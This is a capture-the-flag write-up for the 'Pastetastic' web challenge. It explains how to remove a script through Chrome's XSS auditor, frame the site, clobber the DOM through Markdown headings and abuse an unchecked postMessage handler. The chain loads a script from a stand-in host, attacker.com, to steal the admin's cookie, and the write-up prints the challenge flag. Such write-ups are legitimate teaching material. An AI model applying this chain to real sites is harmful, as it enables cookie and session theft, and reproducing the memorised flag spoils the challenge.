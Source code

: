 # TL;DR

This is just a not-that-**quick summary on the important points** / tricks of the challenge for those who worked on the challenge, but got stuck at some point / missed some tricks.

Read the **whole story below** ▼▼▼!

* There is no (known) vulnerability in the third-party libraries ([Prism](https://prismjs.com/) and [Marked.js](https://marked.js.org))
* The admin visit any reported URL, not just the posts on Pastetastic
  * you have to modify the "DMCA" report's HTTP request after the Recaptcha check
* `CONFIG` JS variable can be removed by abusing Chrome's XSS auditor via sending `<script ...>CONFIG=...</script>` as query parameter (e.g. `?PlzRemoveThisCodeForMe=<script>...`)
  * this is possible since Chrome 74 as it switched to `filter` mode by default instead of previous `block`
    * `filter` = removes code, `block` = does not load the website at all
    * admin used Headless Chrome 77
    * more info in this Twitter thread: https://twitter.com/shhnjk/status/1121138947923406848
  * node is removed even if the `nonce` attribute does not match, don't exactly know if it is intentional or not...
* `CONFIG` variable can be reintroduced by iframeing the website and modifying the `name` of one of its internal iframes 
  * there is no `X-Frame-Options: DENY` header and no `frame-ancestors` policy in the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors), so iframeing is possible
  * to modify the `name` of the `iframe` to `CONFIG`, you first have to set the `location` of the `iframe` to a same-origin location (same-origin as `top` frame)
  * `iframes` are available on `window` as properties by their name and `window` properties are visible the same way as global JS variables - read more about [in the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
* You cannot run scripts in the `sandbox` iframe (as its `sandbox` attribute does not include `allow-scripts` value), but Recaptcha also adds two iframes which do not have the `sandbox` attribute set, so they can run scripts
  * so redirect one of Recaptcha's iframe (not the `sandbox` one) and name it as `CONFIG`
* The [Marked library](https://github.com/markedjs/marked/blob/master/lib/marked.js) used for rendering Markdown is able to include `<img>` tag with `src` attribute and adds `id` attribute to heading tags (eg. to `#` -> `h1`)
  * `# ![someName](URL)` will be converted to `<h1 id="someName"><img src="URL" ...></h1>`
  * [here is the code](https://github.com/markedjs/marked/blob/0b7fc5e3420832efc1c8892d9792363a85d199a5/lib/marked.js#L973) which calculates the `id` value (requires `headerIds` to be set to `true`, but this is the default config)
* The website's `postMessage` handling code (`app.js:13`) does not check the `origin` and can be called by untrusted parties (us :P)
* By creating a fake DOM structure (via **DOM Clobbering**) with the help of the tricks described above, it is possible to hijack [app.js](https://github.com/koczkatamas/gctf19/blob/master/pastetastic/writeup_assets/app.js)'s code and make it to call `loadScripts` with our JS file (which will eval our code and **steal the flag** in the cookie)
  * `this.config = CONFIG.viewer[index];` (`app.js:24`)
    * `CONFIG` is our hijacked Recaptcha iframe pointing to our html file
    * our html file contains `<iframe name="viewer" src="https://pastetastic...com/view/..."></iframe>` which points to a Markdown file
      * this would not work if we used the `sandbox` iframe, as rendering Markdown requires JS, that's why we used one of Recaptcha's iframe
    * `CONFIG.viewer` is the Markdown viewer (`/view/`) page's window
    * `CONFIG.viewer[index]` (`index=0`) is the Markdown viewer page's first iframe (so the `sandbox` iframe) and this is where the rendered Markdown is
    * so `this.config` is our rendered Markdown's window
  * for loop on `this.config.dependencies` (`app.js:28`)
    * Markdown "`# dependencies`" was converted to `<h1 id="dependencies">...</h1>`
    * named elements are visible on the window (aka. on `this.config`) - again: [here is the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
    * so `this.config.dependencies` is our `<h1>` tag (in JS it's a `[object HTMLHeadingElement]`)
    * `this.config.dependencies.length` is `undefined` as `HTMLHeadingElement` does not have a `length` property
      * we had to put `dependencies` into Markdown, because otherwise this code would've break and stop the script from running (as if `dependencies` was `undefined` then `dependencies.length` would cause a "cannot access a property of undefined" error)
    * `i < this.config.dependencies.length` is `false` as `0 < undefined == false` in JS
    * so the for loop never runs
  * for loop on `this.config.preload` (`app.js:33`)
    * same as before for `dependencies`
  * `this.loadPlugin(evt.data.lang)` (`app.js:16`)
    * `evt.data.lang` can be anything and is fully controlled by us via `postMessage` call
  * `const spec = this.config.plugins[lang];` (`app.js:53`)
    * Markdown "`# ![plugins](https://attacker.com/expl.js)`" was converted to `<h1 id="plugins"><img src="https://attacker.com/expl.js" ...></h1>`
    * `this.config.plugins` is the `<h1>` tag
    * set `lang` to `firstElementChild`
    * `this.config.plugins[lang]` is `h1`'s `firstElementChild`, so the `<img>` tag
    * `spec.requires` (`app.js:54`) is `undefined` as `HTMLImageElement` does not have an `requires` property, so this `if` is ignored
  * `this.loadScript(spec);` (`app.js:59`)
    * so `spec` is the `<img>` tag (`HTMLImageElement`)
    * `spec.integrity` (`app.js:68`) is `undefined` as `HTMLImageElement` does not have an `integrity` property, so this `if` is ignored
    * `fetch(spec.src, params)` (`app.js:71`) fetches the `<img>` tag's `src` attribute which is our exploit's URL
      * CORS should be considered, so the JS file should be served with the following headers:
        * `Access-Control-Allow-Origin: *`
        * `Access-Control-Allow-Methods: GET`
* Flag in admin's browser was only available via HTTPS (`secure` flag in set on cookie)
  * so use HTTPS websites for each steps, not to run into mixed content errors

**The flag:** `CTF{694435c0074e860b24cad51f584d0d30}`

# Story

... TODO ...